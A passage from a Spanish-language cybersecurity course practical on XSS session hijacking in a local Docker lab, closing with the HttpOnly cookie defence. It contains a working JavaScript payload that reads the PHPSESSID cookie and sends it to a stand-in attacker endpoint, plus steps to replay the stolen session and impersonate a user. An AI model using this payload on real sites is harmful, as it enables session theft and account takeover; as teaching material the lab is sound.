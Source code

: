 > **Importante**
> Para escribir en el fichero `/data/sessions.txt` usa el mismo método que en la [Práctica Docker](https://victorponz.github.io/Ciberseguridad-PePS/tema2/docker/2021/01/09/Pr%C3%A1ctica-Docker.html) hacíamos con el archivo `counter.txt`

Ahora crea otra imagen docker que escuche en  [127.0.0.1:8080](127.0.0.1:8080) y que simula la víctima. Crea el siguiente contenido en la página `hackeada.php`

```html
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8081/robo-de-sesion.php?session_robada=" + c;
</script>

</body>
</html>
```

Para que funcione, **primero debes iniciar sesión** en la página `http://127.0.0.1:8080/login.php` y después visitar la página `http://127.0.0.1:8080/hackeada.html`

Ahora abre el archivo `sessions.txt` y comprobarás que tiene una clave de sesión que puedes usar para suplantar al usuario original. Para ello, haz una petición a la  página privada a `login.php`, abre la pestaña `Red` en **Firebug** , selecciona la página y pulsa el botón `Reenviar`

![Firebug](/Ciberseguridad-PePS/assets/img/validacion/image-20210131184754004.png)

Y ahí cambia el valor de `PHPSESSID` por el que se encuentra en el archivo `sessions.txt` y pulsa el botón `Enviar`

![Robo de sesión](/Ciberseguridad-PePS/assets/img/validacion/image-20210131185040301.png)

Comprobarás en la pestaña ***Respuesta*** que hemos suplantado al usuario `mario`. Imagina que es la página de un banco, o de Facebook, etc. 

![Suplantación](/Ciberseguridad-PePS/assets/img/validacion/image-20210131185223891.png)

### Evitar el robo de sesión (Session-Hijacking)

Existe una cabecera de respuesta que impide que las cookies se puedan leer por javascript lo que nos protege de este tipo de ataques. Dicha cabecera es `HttpOnly`. Por ejemplo, en PHP se puede configurar [así](https://www.simonholywell.com/post/2013/05/improve-php-session-cookie-security/ ):

```php
ini_set( 'session.cookie_httponly', 1 );
```
